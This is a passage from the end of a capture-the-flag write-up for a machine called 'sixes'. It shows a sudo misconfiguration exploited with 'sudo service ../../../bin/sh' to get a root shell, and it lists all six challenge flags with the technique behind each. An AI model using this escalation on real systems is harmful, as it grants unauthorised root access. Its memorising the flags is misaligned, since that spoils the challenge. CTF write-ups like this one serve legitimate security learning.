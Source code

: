 ```cs

```

do recon/enumerate again  

even the root say so :3  
```bash
$ cd /home/webmaster
$ cat notes.txt
2019-10-02 21:08:05 ~-> root said: Hey webmaster, in case the web server goes down, I gave you some privileges so you can start/stop/restart it whenever you want. Cheers.
2019-10-02 21:08:33 ~-> root said: Hey again, how many times should I repeat that YOU SHOULD NEVER USE GETS? Seriously, even the compiler reminds you... Go fix it now or I'll delete your minecraft account.
```
  
found another flag
```bash
$ cat user.txt
shellmates{96a683b3d9aa80d53066eea68995f317}
```

hmmm, in the last note the root user mention smth about "privileges" ... maybe sudo !?  
```bash
$ sudo -l
Matching Defaults entries for webmaster on sixes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webmaster may run the following commands on sixes:
    (root) NOPASSWD: /usr/sbin/service
```

after read & learn from google, it seems that program except file in `/etc/init.d/` can be  
executed with `service` and *voila*! we got a root shell from misconfiguration service
```bash
$ sudo service ../../../bin/sh
$ whoami
root
$ cd /root
$ ls
firewall
root.txt
xss_simulator
$ cat root.txt
shellmates{fa7b27528914d9ca504c9c281648c418}

```

total flags is 6  
```cs
shellmates{5c6b5e84ab3fa94257bdce66b9c1c200}	# ftp misconfiguration
shellmates{69f78fa6e9f49d180d145553ceecf87d}	# sqli
shellmates{918941c3c797f3fe3a6bc6003fc807cb}	# login bypass with blind xss
shellmates{e02c5869b5dc6e57c0bc24dc8946fe94}	# upload shell
shellmates{96a683b3d9aa80d53066eea68995f317}	# BoF exploitation
shellmates{fa7b27528914d9ca504c9c281648c418}	# service misconfiguration
```
